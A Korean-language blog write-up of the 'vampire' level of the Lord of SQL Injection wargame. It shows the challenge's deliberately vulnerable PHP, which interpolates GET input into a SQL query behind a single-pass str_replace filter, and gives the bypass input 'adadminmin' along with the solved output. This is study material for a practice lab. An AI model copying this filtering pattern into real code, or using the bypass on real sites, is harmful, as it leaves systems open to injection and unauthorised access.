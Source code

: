 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - vampire 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 역시 간단하게 풀 수 있었다.  

일단 소스코드가 짧으니 문제가 더 간단하게 느껴지는 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------
query : select id from prob_vampire where id=''
----------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

처음에 문제를 보고 `troll` 문제랑 같은 문제인 줄 알았다.  

그런데 이번 문제에서는 `ereg()` 함수가 사라지고 `strtolower()`과 `str_replace()` 함수가 생겼다.  

함수 이름에서도 알 수 있다시피 `strtolower()` 함수는 문자열의 대문자를 소문자로 바꾸어주는 함수이고, `str_replace()` 함수는 특정 문자열을 내가 지정한 문자열로 바꾸어 주는 함수이다.  

문제에서는 `GET` 방식으로 받아 온 값에서 `admin`이라는 문자를 `공백`으로 바꾸어 준다.  

그런데 이 `str_replace()` 함수에는 한가지 단점(?)이 있는데, 전체 문자열 전체를 한번만 검사하고 재검사는 하지 않는다는 것이다.  

만약에 `str_replace("admin", "", $var)`라고 구현한다면 아래와 같이 문자열이 있을 경우 결과는 다음과 같다.  

```php
# before

$var = "admin phpmyadmin administrator."

#after

$var = " phpmy istrator."
```

그런데 만약 `adadminmin` 라는 문자열이 있다면 가운데의 `admin`만 필터링 되어 사라지고 앞의 `ad`와 뒤의 `min`이 합쳐져 다시 `admin`이라는 단어를 만들 수 있게 된다.  

역시나 주소창에 아래처럼 입력했더니 문제를 풀 수 있었다.  

```
?id=adadminmin
```

```php
-------------------------------------------------------------------
query : select id from prob_vampire where id='admin'
-------------------------------------------------------------------

VAMPIRE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

`VAMPIRE Clear!!`
